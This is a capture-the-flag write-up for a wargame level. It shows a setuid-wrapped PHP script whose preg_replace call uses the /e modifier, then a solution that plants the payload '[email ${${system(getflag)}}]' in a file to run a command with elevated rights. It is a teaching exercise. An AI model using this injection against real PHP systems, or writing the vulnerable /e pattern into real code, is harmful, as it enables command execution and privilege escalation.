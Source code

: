 # Level09

#### About

There’s a C setuid wrapper for some vulnerable PHP code… 
To do this level, log in as the level09 account with the password level09. Files for this level can be found in /home/flag09. 


#### Source Code

```
<?php

function spam($email)
{
	$email = preg_replace("/\./", " dot ", $email);
	$email = preg_replace("/@/", " AT ", $email);
	
	return $email;
}

function markup($filename, $use_me)
{
	$contents = file_get_contents($filename);

	$contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
	$contents = preg_replace("/\[/", "<", $contents);
	$contents = preg_replace("/\]/", ">", $contents);

	return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

#### Solutions

1. ----> test.txt 
[email ${${system(getflag)}}] 
  
2. /home/flag09/flag09 test.txt  


#### Recommends

Bash/Zsh/fish shell
